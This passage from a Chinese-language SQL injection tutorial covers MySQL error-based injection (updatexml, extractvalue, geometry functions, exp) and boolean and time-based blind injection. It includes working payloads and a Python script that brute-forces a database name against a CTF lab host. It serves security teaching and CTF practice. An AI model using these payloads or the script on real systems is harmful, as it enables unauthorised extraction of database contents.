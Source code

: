 ```
http://example.com/index.php?id=1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```

##### extractvalue()

函数原型：```EXTRACTVALUE(XML_document, XPath_string)```   
参数含义同上。   
举例:   

```
http://example.com/index.php?id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```

##### 几何对象

MySQL中支持的几何数据类型包括Geometry,Point,LineString,Polygon以及集合类型的MultiPoint,MultiLineString,MultiPolygon,GeometryCollection.其中Geometry可以表示任意一种几何类型，即在MySQL中，如果一个字段类型是Geometry，则可以存储Point、LineString等其它几何类型的值。其他的几种则需要固定有效的表示格式。   
我们可以借助几何对象的相关函数进行报错注入。   
geometrycollection():```id=1 and geometrycollection((select * from(select * from(select user())a)b))```   
multipoint():```id=1 and multipoint((select * from(select * from(select user())a)b))```   
polygon():```id=1 and polygon((select * from(select * from(select user())a)b))```   
multipolygon():```id=1 and multipolygon((select * from(select * from(select user())a)b))```   
linestring():```id=1 and linestring((select * from(select * from(select user())a)b))```   
multilinestring():```id=1 and multilinestring((select * from(select * from(select user())a)b))```   

##### exp()

例子：
```id=1 and exp(~(select * from(select user())a))```   

**报错注入适用范围：无回显，但可以获得详细报错信息。**

#### 0x05 盲注

盲注主要分为布尔盲注，时间盲注，其中布尔盲注通过页面报错or不报错(或者显示不同信息)来判断某一次查询结果是否为真，时间盲注通过请求响应时间来判断某一次猜解是否正确。

盲注要灵活运用字符串处理函数，例如substr,left,right。

通用payload：

```sql
?param=1' and if(ascii(substr(database(),{pos},1))>{val},1,0) %23 # 布尔，借助if函数(if被过滤可使用case when)
?param=1' and ascii(substr(database(),{pos},1)>{val}) and sleep(3) %23 # 时间，如果第二部分为真则被短路第三部分不执行，否则执行第三部分
```

通过变换pos和val的值完成对某一项信息的逐位猜解。主要借助二分法来完成某一位pos的值的判断，效率较高。

举一个例子，V1lu0实验室招新hard_sql，第一步爆破数据库名的脚本：

```python
import requests

for i in range(1, 10):
    for j in range(32, 127):
        payload = "?user=1' and if(ascii(substr(database(), {},1))={},pow(999,999),1) %23&pass=123".format(i, j)
        url = "http://v8.su29029.xyz:10010/index.php" + payload
        r = requests.get(url)
        # print(j, end = " ")
        if (r.text.find('Something wrong') != -1):
            print(chr(j))
```
这个脚本主要是报错盲注，题目的提示是，语句为真则登录成功，语句为假则返回失败，语句出错则返回something wrong。   
